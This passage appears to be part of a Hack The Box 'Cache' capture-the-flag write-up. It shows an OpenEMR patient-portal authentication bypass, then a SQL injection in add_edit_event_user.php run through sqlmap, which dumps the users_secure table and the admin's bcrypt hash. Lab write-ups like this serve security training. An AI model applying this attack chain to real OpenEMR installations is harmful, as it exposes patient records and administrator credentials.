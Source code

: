    Adding hms.htb in our hosts-file gives us access to OpenEMR.

   Admin Login:
    http://hms.htb/interface/login/login.php?site=default

   Customer Portal:
    http://hms.htb/portal/


3. Reading about OpenEMR we find that there are a authentication bypass vulnerability, allowing an unauthenticated user to view
   patient records - to add a cherry on top, the patient records are also vulnerable to SQLi.

   Browse to the customer portal, press 'Register' to grab a authenticated cookie, and then start to view authenticated pages as
   you please. To execute the SQLi start your proxy, and catch your GET request to:

    http://hms.htb/portal/add_edit_event_user.php?eid=1'

   Copy the request and paste it into a file, and remove  the' (url-encoded to %27)
   Fire up SQLmap and attack!


   root@nidus:/git/htb/cache# cat openemr.req
     GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
     Host: hms.htb
     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
     Accept-Language: en-US,en;q=0.5
     Accept-Encoding: gzip, deflate
     Connection: close
     Cookie: OpenEMR=rn8u2gc83jdnfb64codf22edvd; PHPSESSID=h9anmkcdmjgcshjdns6jhictuc
     Upgrade-Insecure-Requests: 1

   root@nidus:/git/htb/cache# sqlmap -r openemr.req  --threads=10 --dbs
     ..
     [12:16:59] [INFO] the back-end DBMS is MySQL
     back-end DBMS: MySQL >= 5.1
     ..
     available databases [2]:
     [*] information_schema
     [*] openemr

   Continue to enumerate tables to user information.
   root@nidus:/git/htb/cache# sqlmap -r openemr.req  --threads=10 -D openemr --tables
    ..
    [12:21:32] [INFO] retrieved: 'users'
    [12:21:32] [INFO] retrieved: 'users_secure'
    ..

  View the columns in users_secure.
  root@nidus:/git/htb/cache# sqlmap -r openemr.req  --threads=10 -D openemr -T users_secure --dump
    Database: openemr
    Table: users_secure
    [1 entry]
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    | id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    | 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
